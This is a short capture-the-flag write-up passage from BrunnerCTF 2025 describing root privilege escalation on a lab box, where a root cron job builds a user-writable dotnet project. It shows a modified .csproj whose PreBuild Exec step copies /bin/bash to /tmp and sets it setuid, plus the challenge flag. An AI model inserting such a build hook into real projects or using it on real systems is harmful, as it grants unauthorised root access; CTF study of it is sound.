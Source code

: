 Root for this box is about abusing cronjobs and dotnet project builds. Luckily for us, this box is setup with internet access so we can bring our own tools pretty easily :D 

For this you can use pspy to monitor for background processes to find crons. About every minute a cron is used to run a build as root. 

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/dotwhat-cron.png)

And because this web app is running from the user's directory, and owned by them too, we can edit files.

I just added a prebuild command to the `.csproj` file. Here, I copied `/bin/bash` then use setuid to get root.

```
<Project Sdk="Microsoft.NET.Sdk.Web">

  <PropertyGroup>
    <PreserveCompilationContext>true</PreserveCompilationContext> <!-- Required for RazorLight...  -->
    <TargetFramework>net8.0</TargetFramework>
    <Nullable>enable</Nullable>
    <ImplicitUsings>enable</ImplicitUsings>
  </PropertyGroup>

  <ItemGroup>
    <PackageReference Include="RazorLight" Version="2.3.1" />
  </ItemGroup>


  <Target Name="PreBuild" AfterTargets="PreBuildEvent">
    <Exec Command="cp /bin/bash /tmp/benkyou; chmod 4755 /tmp/benkyou" />
  </Target>

</Project>
```

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/dotwhat-root.png)

Flag: `brunner{M1Gr4T3_Th353_pR1v1l3G35!_H4H4_G0T_3M}`


Solved by: benkyou